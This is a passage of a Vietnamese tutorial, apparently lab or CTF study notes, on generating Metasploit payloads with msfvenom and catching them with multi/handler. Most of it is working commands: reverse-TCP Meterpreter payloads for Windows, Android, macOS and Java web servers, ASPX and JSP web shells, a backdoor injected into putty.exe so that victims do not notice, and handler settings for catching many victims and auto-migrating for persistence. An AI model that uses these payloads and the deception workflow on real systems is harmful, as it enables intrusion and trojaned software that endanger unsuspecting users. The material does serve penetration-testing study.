> Việc Encode giống như bạn viết một bức thư bí mật bằng "tiếng lóng" để lách qua hệ thống kiểm duyệt ký tự, và gửi kèm một tờ giấy hướng dẫn dịch tiếng lóng (decoder stub) cho người nhận. Bức thư tuy bị biến dạng, nhưng nội dung cốt lõi và mục đích vẫn không đổi.

### **5.2. Using Encoders with Msfvenom**

Để sử dụng bộ mã hóa trong `msfvenom`, chúng ta dùng 3 cờ chính:
*   `-e`: Chọn bộ mã hóa (Ví dụ: `x86/shikata_ga_nai`).
*   `-i`: Số lần lặp lại việc mã hóa (Iterations).
*   `-b`: Khai báo danh sách các ký tự xấu cần loại bỏ.

**Ví dụ lệnh mã hóa 3 lần với shikata_ga_nai:**
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 3 -o encoded.exe
```


*Lưu ý: Mỗi lần lặp (iteration) sẽ mã hóa đè lên kết quả của lần trước, khiến kích thước payload tăng lên một chút xíu.*


**Ví dụ lệnh loại bỏ ký tự xấu:**
Để loại bỏ các ký tự xấu, bạn dùng cờ `-b` kèm theo danh sách ký tự ở dạng Hex:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f c -b '\x00\x0a\x0d'
```
*Mẹo: Khi bạn dùng cờ `-b`, `msfvenom` sẽ tự động tìm và chọn một encoder phù hợp để loại bỏ các ký tự đó. Bạn không nhất thiết phải tự gõ thêm cờ `-e`.*

### **5.3. The Reality Check: Why Encoding Does Not Bypass Modern AV**

Vào đầu những năm 2000, các Antivirus chủ yếu dùng **Static signature matching** (kiểm tra chữ ký tĩnh), tức là so sánh từng byte của file với danh sách mã độc đã biết. Khi đó, `shikata_ga_nai` cực kỳ hiệu quả vì mỗi lần tạo ra, nó lại làm xáo trộn cấu trúc byte (đa hình), khiến AV không nhận ra.

Nhưng các giải pháp bảo mật hiện đại (EDR/AV) đã vượt xa việc chỉ nhìn vào mặt chữ:
*   **Heuristic analysis (Phân tích theo kinh nghiệm/hành vi):** Kiểm tra xem file đó *đang làm gì*. Hành vi một đoạn mã (decoder stub) tự động giải mã và bơm code tùy ý vào RAM là một hành vi mờ ám cực kỳ đặc trưng.
*   **Sandboxing:** AV sẽ quẳng file của bạn vào một "hộp cát" ảo an toàn để chạy thử. Payload sẽ tự giải mã bên trong hộp cát, lộ nguyên hình là mã độc và bị diệt.
*   **AMSI (Antimalware Scan Interface):** Chặn bắt các đoạn mã *sau khi* nó vừa tự giải mã xong nhưng *trước khi* kịp thực thi.
*   **Machine Learning (Học máy):** AI đã được huấn luyện với hàng triệu mẫu đa hình để nhìn xuyên thấu cấu trúc mã độc.

Dù bạn có lặp `shikata_ga_nai` 10 hay 100 lần, thì bản thân cái "tờ giấy hướng dẫn dịch" (XOR decoder stub) gắn ở đầu file đã trở thành một chữ ký tĩnh (signature) nhẵn mặt với tất cả các AV.

> **💡 Ví dụ đời sống:** 
> AV ngày xưa giống như cảnh sát nhận diện tội phạm qua khuôn mặt (Static signature). Tội phạm chỉ cần đeo mặt nạ (Encode) là qua chốt.
> AV hiện đại giống như hệ thống camera an ninh theo dõi hành vi. Kẻ gian dù có thay 10 cái mặt nạ (Encode 10 iterations) nhưng cứ có hành vi lấm lét thò tay cạy khóa két sắt (hành vi của decoder stub) thì vẫn sẽ bị bảo vệ tóm cổ ngay lập tức.

### **5.4. When Encoding Is Still Useful**

Mặc dù không dùng để lẩn trốn (evasion), encoding vẫn giữ nguyên giá trị cốt lõi ban đầu của nó: **Né tránh các ký tự xấu trong phát triển mã khai thác (Exploit Development)**. 

Nếu bạn đang viết một bài lab Buffer Overflow và cần đảm bảo chuỗi shellcode của mình không bị đứt gãy do chứa ký tự ngắt dòng (newline), mã hóa là giải pháp hoàn hảo và sạch sẽ nhất. Đó là một yêu cầu kỹ thuật chính đáng, chứ không phải kỹ thuật tàng hình. Để lẩn trốn thật sự, bạn sẽ cần học các kỹ thuật cao cấp hơn như **Custom Loaders** hay **Process Injection**

## **6. Payload Injection and Multi-Platform Payloads**

Từ đầu đến giờ, mọi file `.exe` bạn tạo ra đều là file mới tinh (chỉ chứa mỗi mã độc). Nhưng nếu bạn muốn ngụy trang payload thành một phần mềm có thật, và muốn tấn công các thiết bị khác ngoài Windows hay Linux thì sao? Bài học này sẽ hướng dẫn cách tiêm mã độc vào file có sẵn và tạo payload đa nền tảng.

### **6.1. Injecting Payloads into Existing Binaries**

Bạn có thể ra lệnh cho `msfvenom` lấy một phần mềm hợp pháp (ví dụ: trình SSH `putty.exe`) làm "khuôn mẫu" (template), sau đó tiêm mã độc của bạn vào trong phần mềm đó. Kết quả tạo ra một file `.exe` có hình dáng, icon giống hệt bản gốc.

**Lệnh tiêm cơ bản (Dùng cờ `-x`):**
Cờ `-x` (template) chỉ định đường dẫn đến file gốc.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -x /root/templates/putty.exe -f exe -o putty_backdoor.exe
```


*Kết quả:* File `putty_backdoor.exe` sẽ to hơn file gốc một chút vì chứa thêm mã độc. Khi nạn nhân chạy file này, mã độc sẽ kích hoạt, nhưng **phần mềm PuTTY gốc có thể bị lỗi không chạy được**.

**Lệnh tiêm giữ nguyên hoạt động gốc (Dùng cờ `-k`):**
Để nạn nhân không nghi ngờ, bạn phải dùng thêm cờ `-k` (keep). Cờ này yêu cầu `msfvenom` tách mã độc ra chạy ở một luồng (thread) ẩn riêng biệt.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -x /root/templates/putty.exe -k -f exe -o putty_backdoor.exe
```
*Kết quả:* Khi nạn nhân mở file, giao diện PuTTY vẫn hiện lên và dùng bình thường, trong khi mã độc âm thầm gọi về máy bạn ở chế độ nền.

> **💡 Ví dụ đời sống:** 
> Lệnh cơ bản (`-x`) giống như bạn lấy hộp bánh Trung Thu xịn, vứt hết bánh đi rồi nhét bom vào. Người nhận mở hộp ra thấy bom chứ không thấy bánh, họ sẽ biết ngay là bị lừa.
> Lệnh có cờ `-k` giống như bạn nhét quả bom mỏng dính vào dưới đáy hộp, bên trên vẫn xếp đầy đủ bánh Trung Thu. Người nhận vẫn ăn bánh ngon lành mà không biết dưới đáy có bom.

### **6.2. Detection Trade-Offs (Đánh đổi về mặt phát hiện)**

Kỹ thuật tiêm này (Template injection) rất hay trên lý thuyết, nhưng trong thực tế lại có những rủi ro lớn khiến nó dễ bị bắt bài:
*   **Sai lệch mã băm (Hash mismatch):** File đã bị nhét thêm mã độc nên mã băm (MD5/SHA256) sẽ khác hoàn toàn file gốc. Các hệ thống kiểm tra tính toàn vẹn sẽ phát hiện ngay.
*   **Phá vỡ chữ ký số (Digital signature breakage):** Hầu hết phần mềm xịn đều có chữ ký số xác thực (Digital Signature). Khi bạn can thiệp vào file, chữ ký này lập tức vô hiệu lực. Windows sẽ bật cảnh báo màn hình xanh "Publisher could not be verified" khi nạn nhân chạy file.
*   **Bị AV bắt bài (AV heuristics):** Hành vi "nhét thêm một đoạn code vào phần mềm hợp pháp" là một chiêu trò quá cũ. Hầu hết Antivirus đều có riêng một máy quét chỉ để tìm cấu trúc file bị tiêm kiểu này.

*Kết luận:* Tiêm file bằng `msfvenom` chỉ tốt để làm lab hoặc CTF. Trong môi trường thực tế, bạn cần các công cụ làm rối mã (obfuscation) chuyên nghiệp hơn nhiều.

### **6.3. Multi-Platform Payloads**

Metasploit hỗ trợ tấn công hầu như mọi nền tảng phổ biến hiện nay.

**1. Android (APK)**
*   **Lệnh:** `msfvenom -p android/meterpreter/reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -o evil.apk`
*   File `.apk` là bộ cài ứng dụng của Android. Bạn có thể gửi file này cho nạn nhân tự cài (Sideload). Nạn nhân sẽ phải bật "Cài đặt từ nguồn không xác định" (Unknown sources) thì mới chạy được.

**2. macOS (Mach-O)**
*   **Lệnh:** `msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f macho -o shell.macho`
*   **Mach-O** là định dạng file thực thi gốc của máy Mac (giống `.exe` của Windows hay `.elf` của Linux).


**3. Java Web Application (WAR)**
*   **Lệnh:** `msfvenom -p java/meterpreter/reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f war -o shell.war`
*   Định dạng `.war` dùng để triển khai lên các máy chủ ứng dụng Java như Apache Tomcat, JBoss. Nếu bạn mò được tài khoản admin của trang quản trị Tomcat, bạn có thể upload file này lên để lấy shell.

**4. Windows IIS Web Shells (ASP/ASPX)**
*   **Lệnh:** `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f aspx -o shell.aspx`
*   Dành riêng cho máy chủ web chạy nền tảng Microsoft IIS (thường đi kèm với Windows Server).

**5. Java Web Shells (JSP)**
*   **Lệnh:** `msfvenom -p java/meterpreter/reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f jsp -o shell.jsp`
*   Tương tự như PHP, dùng cho web server chạy Java khi lỗ hổng chỉ cho phép tải lên từng file lẻ tẻ chứ không cho upload cả gói `.war`.

### **6.4. Choosing the Right Platform and Format (Sơ đồ tư duy)**

Để chọn đúng tham số cho `msfvenom`, hãy tự hỏi 3 câu:
1.  **Mục tiêu chạy hệ điều hành gì?** Quyết định nền tảng (Platform) của phần `-p` (`windows/`, `linux/`, `android/`, `php/`...).
2.  **Cách bạn gửi mã độc đến mục tiêu là gì?** Quyết định định dạng (`-f`). 
    * Nếu quăng file vào máy: Dùng định dạng thực thi (`exe`, `elf`, `apk`).
    * Nếu upload qua web: Dùng định dạng web (`php`, `aspx`, `war`).
    * Nếu nhét vào bộ nhớ/code: Dùng định dạng chuyển đổi (`raw`, `c`, `python`).
3.  **Mục tiêu có sẵn môi trường (runtime) nào không?** Nếu server chạy PHP, phải dùng PHP. Nếu nó là máy trần (bare OS) không cài thêm môi trường nào, phải dùng mã nhị phân gốc (`exe`, `elf`)

## **7. Handlers and Catching Shells (Trình lắng nghe và Bắt kết nối)**

Khi bạn đã tạo thành công một payload bằng `msfvenom` và bằng cách nào đó ném nó sang máy nạn nhân. Nếu payload đó sử dụng cơ chế *reverse connection* (kết nối ngược - đa số đều dùng loại này), nó cần một nơi chốn để "gọi về". Nơi chốn đó chính là một **Handler** (Trình lắng nghe): một trạm gác đang chạy trên máy tính của bạn, háu đói chờ đợi các kết nối đi vào để thiết lập phiên làm việc (session).

> **💡 Ví dụ đời sống:** 
> Việc tạo payload giống như bạn phát một tờ rơi lừa đảo có ghi số điện thoại của bạn. Gửi file cho nạn nhân là đi phát tờ rơi. Nhưng nếu nạn nhân gọi đến mà bạn không ngồi ở nhà trực điện thoại (không bật Handler) thì tờ rơi đó hoàn toàn vô dụng. **Handler** chính là người trực tổng đài điện thoại ở nhà bạn.

### **7.1. Setting Up exploit/multi/handler**

Metasploit cung cấp một module tên là `exploit/multi/handler`. Đây là "tổng đài vạn năng" có thể bắt được bất kỳ loại payload nào trong framework (từ Meterpreter, command shell bình thường, cho đến web shell PHP hay Python). 

Bạn cấu hình nó bên trong dấu nhắc lệnh `msfconsole` giống hệt như các module khác:

```bash
# Bật module lắng nghe
msf6 > use exploit/multi/handler

# Cấu hình các thông số giống hệt như khi tạo bằng msfvenom
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 4444

# Kiểm tra lại cấu hình
msf6 exploit(multi/handler) > show options
```


### **7.2. The Golden Rule: Everything Must Match (Nguyên tắc Vàng: Phải khớp 100%)**

Lý do phổ biến nhất khiến một Handler bắt shell thất bại (dù nạn nhân đã chạy file) là do **sự sai lệch cấu hình** giữa lệnh `msfvenom` lúc tạo và `multi/handler` lúc lắng nghe.

Ba giá trị sau bắt buộc phải **giống hệt nhau tuyệt đối**:
1.  **PAYLOAD:** Tên payload (Đặc biệt lưu ý sự khác biệt giữa staged `/` và stageless `_`).
2.  **LHOST:** Địa chỉ IP máy bạn.
3.  **LPORT:** Cổng mạng bạn đang mở.

Nếu bạn tạo file chỉ định LPORT là `4444`, nhưng trên tổng đài lại bật nghe ở cổng `5555`, mạng sẽ im lìm và không có lỗi nào báo ra. Nạn nhân gửi dữ liệu vào hư không.

> **💡 Ví dụ đời sống:** 
> Bạn hẹn điệp viên (payload) mật khẩu là "Staged" và gặp ở hẻm số 4444. Nhưng bạn lại đứng chờ ở hẻm 4444 và hỏi mật khẩu "Stageless". Điệp viên sẽ không nhận ra bạn và bỏ đi. Mọi thứ phải khớp 100%.


### **7.3. The Full Generate → Deliver → Catch Workflow**

Để hình dung toàn cảnh, đây là 5 bước cho một quy trình tấn công hoàn chỉnh:

1.  **Generate:** Tạo mã độc bằng `msfvenom`.
    ```bash
    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f exe -o shell.exe
    ```
2.  **Start the handler:** Bật tổng đài trên `msfconsole` (dùng lệnh `run` hoặc `exploit` sau khi đã set thông số).
    ```bash
    msf6 exploit(multi/handler) > run
    ```
    
3.  **Deliver:** Chuyển file sang mục tiêu. (Trong bài lab này, hacker dùng luôn module `auxiliary/admin/smb/upload_file` của Metasploit để tải file qua dịch vụ SMB).

4.  **Execute:** Mã độc được kích hoạt trên máy nạn nhân.
5.  **Catch:** Quay lại màn hình `msfconsole`, bạn sẽ thấy thông báo hạnh phúc nhất của Pentester: `[*] Meterpreter session 1 opened`.


### **7.4. Handler Tips (Các Mẹo Nâng Cao Cho Handler)**

Để làm việc chuyên nghiệp hơn, bạn nên kết hợp các tuỳ chọn sau:

*   **Chạy ngầm (Backgrounding):** 
    Nếu bạn gõ `run -j`, Handler sẽ chạy ẩn dưới nền (background job). Bạn sẽ được trả lại dấu nhắc lệnh `msf6 >` để đi hack máy khác trong lúc chờ mục tiêu này cắn câu. Khi nào shell về, nó sẽ tự hiện thông báo.
    ```bash
    msf6 exploit(multi/handler) > run -j
    ```

*   **Giữ tổng đài luôn mở (ExitOnSession):**
    Mặc định, Handler sẽ tự "đóng cửa" sau khi bắt được 1 nạn nhân đầu tiên. Nếu bạn rải mã độc cho 10 máy tính, bạn cần cấu hình `set ExitOnSession false`. Lúc này, tổng đài sẽ chạy liên tục để bắt toàn bộ 10 máy dội về cùng một chỗ.
    ```bash
    msf6 exploit(multi/handler) > set ExitOnSession false
    ```

*   **Chạy script tự động (AutoRunScript):**
    Tuỳ chọn cực kỳ lợi hại giúp cấu hình một tập lệnh chạy ngay lập tức khi shell kết nối về. 
    Ví dụ: Dùng `set AutoRunScript post/windows/manage/migrate` để vừa bắt được Meterpreter, nó sẽ tự động tẩu thoát (migrate) sang một tiến trình bền vững (như `explorer.exe`), giúp kết nối không bị sập nếu nạn nhân vô tình tắt phần mềm bị nhiễm.
    ```bash
    msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
    ```

> **💡 Ví dụ đời sống:** 
> `ExitOnSession false` giống như dặn lễ tân: "Tiếp khách xong đừng khóa cửa công ty, vẫn còn nhiều khách tới nữa".
> `AutoRunScript` giống như dặn hệ thống nhà thông minh: "Ngay khi cửa vừa mở (có kết nối về), lập tức tự động bật đèn, mở máy lạnh và kéo rèm (tự động migrate tiến trình)" mà không cần bạn phải làm bằng tay